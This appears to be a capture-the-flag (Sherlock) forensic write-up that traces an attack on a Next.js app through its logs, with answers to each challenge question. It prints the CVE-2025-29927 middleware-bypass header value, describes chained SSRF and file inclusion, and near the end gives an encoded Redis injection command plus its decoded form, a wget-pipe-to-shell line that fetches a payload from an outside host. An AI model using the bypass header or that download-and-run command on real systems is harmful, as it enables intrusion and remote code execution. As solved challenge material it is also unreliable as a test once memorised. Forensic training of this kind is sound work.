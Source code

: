 
##### Sherlock Scenario

NeuroSync™ is a leading suite of products focusing on developing cutting edge medical BCI devices, designed by the Korosaki Coorporaton. Recently, an APT group targeted them and was able to infiltrate their infrastructure and is now moving laterally to compromise more systems. It appears that they have even managed to hijack a large number of online devices by exploiting an N-day vulnerability. Your task is to find out how they were able to compromise the infrastructure and understand how to secure it.

___

### Q1: What version of Next.js is the application using?

#### A: 15.1.0

In the interface.log.

![](../../Img/Pasted%20image%2020250429152722.png)

___

### Q2: What local port is the Next.js-based application running on?

#### A: 3000

Q1 screenshot.

___

### Q3: A critical Next.js vulnerability was released in March 2025, and this version appears to be affected. What is the CVE identifier for this vulnerability?

#### A: CVE-2025-29927

Googling it.

![](../../Img/Pasted%20image%2020250429153028.png)

https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass

___

### Q4: The attacker tried to enumerate some static files that are typically available in the Next.js framework, most likely to retrieve its version. What is the first file he could get?

#### A: main-app.js

Inside the access.log, the first thing that we can notice it's the files that tried to access.

![](../../Img/Pasted%20image%2020250429153550.png)

The 2 files that we are interested in are main-app.js and page.js (the ones with code 200)

![](../../Img/Pasted%20image%2020250429153738.png)

![](../../Img/Pasted%20image%2020250429153724.png)

main-app.js seems like the answer.

___

### Q5: Then the attacker appears to have found an endpoint that is potentially affected by the previously identified vulnerability. What is that endpoint?

#### A: /api/bci/analytics

After the first .js files the attacker searched for. There is only this endpoint.

![](../../Img/Pasted%20image%2020250429153924.png)

___

### Q6: How many requests to this endpoint have resulted in an "Unauthorized" response?

#### A: 5

Unauthorized code is 401 (https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Status/401)

![](../../Img/Pasted%20image%2020250429154143.png)

___

### Q7: When is a successful response received from the vulnerable endpoint, meaning that the middleware has been bypassed?

#### A: 2025-04-01 11:38:05

Search for the first 200 response from that endpoint.

![](../../Img/Pasted%20image%2020250429154309.png)

___

### Q8: Given the previous failed requests, what will most likely be the final value for the vulnerable header used to exploit the vulnerability and bypass the middleware?

#### A: x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

This article says it is. (https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)

We can also see where the attack started in the interface.log file. It went from 1 to 4 middlewares. But those were the ones that didn't work.

![](../../Img/Pasted%20image%2020250429154442.png)

After those 4 ones it worked, so we can assume that there were 5 middlewares

![](../../Img/Pasted%20image%2020250429154736.png)

___

### Q9: The attacker chained the vulnerability with an SSRF attack, which allowed them to perform an internal port scan and discover an internal API. On which port is the API accessible?

#### A: 4000

Just opening the data-api.log file we see this.

![](../../Img/Pasted%20image%2020250429154941.png)

___

### Q10: After the port scan, the attacker starts a brute-force attack to find some vulnerable endpoints in the previously identified API. Which vulnerable endpoint was found?

#### A: /logs

In the same log file, following the brute force attack we cans see that one worked (bc it found a internal file).

![](../../Img/Pasted%20image%2020250429155315.png)

___

### Q11: When the vulnerable endpoint found was used maliciously for the first time?

#### A: 2025-04-01 11:39:01

That would be when it accessed a file for the first time.

___

Q12: What is the attack name the endpoint is vulnerable to?

A: Local File Inclusion

That would be an LFI because it's passing the path of the file that the attacker wants to read in the logFile parameter that the /logs endpoint uses.

Q13: What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?

A: secret.key

Scrolling down in search for the last one, we found this.

![](../../Img/Pasted%20image%2020250429155754.png)

Q14: Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?

A: OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb

As per the question, we check the redis.log file and find this weird command.

![](../../Img/Pasted%20image%2020250429155939.png)

Q15: Once decoded, what is the command?

A: wget http://185.202.2.147/h4Pln4/run.sh -O- | sh

I opened cyberchef and tried a few common conversions. Base 64 worked.


Tags: [Log Analysis](../../Index/Log%20Analysis.md) 